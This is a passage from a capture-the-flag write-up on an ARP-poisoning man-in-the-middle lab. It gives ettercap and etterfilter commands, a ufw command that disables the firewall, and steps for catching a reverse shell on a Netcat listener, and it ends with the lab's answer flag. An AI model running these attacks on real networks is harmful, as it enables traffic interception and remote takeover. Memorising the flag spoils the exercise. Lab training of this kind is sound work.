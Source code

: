 ufw allow in on eth1 from 192.168.12.20 to 192.168.12.66 port 6666 proto tcp or completely disable the firewall by running ufw disable

Now, run ettercap specifying your newly created etterfilter file:

ettercap -T -i eth1 -M arp -F whoami.ef

A few seconds after executing this command, you should see the “###### ETTERFILTER: …” message and/or “Connection received on 192.168.12.20 …” in your Netcat output, which means you’ve just caught a reverse shell from Bob! Now, you can quit ettercap (with q), foreground your Netcat listener (with fg), and enjoy your shell!
<img width="720" height="181" alt="image" src="https://github.com/user-attachments/assets/7b8aa0cf-dd46-4301-b29b-1fb309577f92" />

Zoom image will be displayed
<img width="720" height="387" alt="image" src="https://github.com/user-attachments/assets/8bc395d3-f17f-45b6-a147-e7f8d41a29de" />

Zoom image will be displayed
<img width="720" height="282" alt="image" src="https://github.com/user-attachments/assets/9d839b15-f47a-4ccf-8928-d60da9e4fcac" />

Zoom image will be displayed
<img width="514" height="119" alt="image" src="https://github.com/user-attachments/assets/65de2254-4321-42e8-a939-e776b8f5fa0a" />


Note: To restrict ettercap’s ARP poisoning efforts to your actual targets and only display traffic between them, you can specify them as target groups 1 and 2 by using “///”-token annotation after the -M arp option:

ettercap -T -i eth1 -M arp /192.168.12.10// /192.168.12.20// -F whoami.ef

Hint: In case the reverse shell won’t work, try replacing whoami with a suitable cat command to get the flag.
<img width="720" height="112" alt="image" src="https://github.com/user-attachments/assets/abaf003f-cfa9-4976-a599-e645328fd2d2" />

Zoom image will be displayed
<img width="720" height="474" alt="image" src="https://github.com/user-attachments/assets/50dc6106-eb4e-46e9-a2e5-d7a0e3f3768e" />

Zoom image will be displayed
<img width="720" height="269" alt="image" src="https://github.com/user-attachments/assets/c175f5a1-aabd-439e-8bb4-d8f7197e5903" />

Zoom image will be displayed
<img width="720" height="301" alt="image" src="https://github.com/user-attachments/assets/36558149-dd48-489c-a656-71f63684845e" />

Zoom image will be displayed

What is the root.txt flag?
Anwser : THM{wh4t_an_ev1l_M!tM_u_R}
